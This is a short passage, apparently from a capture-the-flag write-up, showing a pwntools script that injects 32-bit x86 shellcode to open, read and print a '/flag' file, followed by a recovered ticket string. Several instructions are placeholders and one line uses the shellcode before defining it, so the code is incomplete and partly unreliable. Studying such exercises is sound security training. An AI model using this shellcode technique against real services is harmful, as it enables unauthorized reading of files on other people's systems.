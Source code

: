 ````bash
p.sendafter(": \n",shellcode.ljust(0x100,b'\0'))

context.arch='i386'
context.bits=32
flag_path_1 = hex(u32(b"/fla"))
flag_path_2 = hex(u32(b"g\0\0\0"))
shellcode=f'''
mov esp, {your new stack}
mov eax, 0x5
push {flag_path_2}
push {flag_path_1}
mov {a register which would store the filename},esp
xor ecx,ecx
xor edx,edx
int 0x80

mov ebx,{File Descriptor of FLAG}
mov al,0x3
mov ecx,{buffer to store the content}
mov edx,{length of the buffer}
int 0x80

{write the flag!}
int 0x80
'''
# input()
shellcode = asm(shellcode)
print("[+] len of shellcode: "+str(len(shellcode)))

p.send(shellcode)
p.interactive()
p.close()
````

So the ticket is `8e7bd9e37e38a85551d969e29b77e1ce`
